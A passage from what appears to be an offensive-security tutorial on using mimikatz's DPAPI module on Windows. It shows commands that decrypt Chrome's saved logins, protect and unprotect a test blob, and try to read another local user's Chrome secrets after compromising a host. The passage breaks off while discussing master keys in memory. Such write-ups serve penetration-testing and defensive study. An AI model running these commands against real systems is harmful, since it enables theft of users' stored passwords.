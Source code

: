 ![](<../../.gitbook/assets/Screenshot from 2019-04-13 15-31-49.png>)

Or Chrome's saved credentials:

{% code title="attacker@victim" %}
```csharp
dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-04-13 15-34-29.png>)

## Protecting and Unprotecting Data

Using mimikatz, we can easily encrypt any data that will only be accessible to currently logged on user (unless a bad admin comes by - more on this later):

{% code title="" %}
```csharp
dpapi::protect /data:"spotless"
```
{% endcode %}

![text "spotless" encrypted into a blob of bytes](<../../.gitbook/assets/Screenshot from 2019-04-13 15-42-36.png>)

Let's copy/paste the blob into a new file in HxD and save it as `spotless.bin`. To decrypt it while running under `mantvydas` user context:

```csharp
dpapi::blob /in:"c:\users\mantvydas\desktop\spotless.bin" /unprotect
```

![](<../../.gitbook/assets/Screenshot from 2019-04-13 15-43-02.png>)

## Decrypting Other User's Secrets

If you compromised a system and you see that there are other users on the system, you can attempt reading their secrets, but you will not be able to do so since you do not have their DPAPI master key, yet.

Let's try reading user's `spotless` chrome secrets while running as a local admin:

{% code title="attacker@victim" %}
```csharp
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /unprotect
```
{% endcode %}

As mentioned, we see an error message suggesting `CryptUnprotectData` is having some issues decrypting the requested secrets:

![](<../../.gitbook/assets/Screenshot from 2019-04-13 15-55-38.png>)

If you escalated privilges, you can try looking for the master key in memory:

